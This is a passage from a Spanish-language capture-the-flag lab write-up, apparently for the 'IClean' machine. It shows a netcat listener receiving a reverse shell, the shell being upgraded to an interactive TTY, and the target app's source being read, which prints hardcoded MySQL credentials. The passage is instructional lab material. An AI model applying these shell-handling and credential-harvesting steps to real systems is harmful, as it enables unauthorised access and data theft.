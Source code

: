 ```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.16.100] from capiclean.htb [10.10.11.12] 60878
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@iclean:/opt/app$ ^Z
zsh: suspended  nc -lvp 443                                                                                                                         
┌──(root㉿kali)-[/home/kali]
└─# stty raw -echo; fg
[1]  + continued  nc -lvp 443
                                reset
www-data@iclean:/opt/app$ export TERM=xterm
www-data@iclean:/opt/app$ export SHELL=bash
```

Dentro del directorio donde obtuve la shell, hay un script en Python que contiene credenciales para iniciar sesión en MySQL

```bash
www-data@iclean:/opt/app$ cat app.py 
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

app._static_folder = os.path.abspath("/opt/app/static/")
```
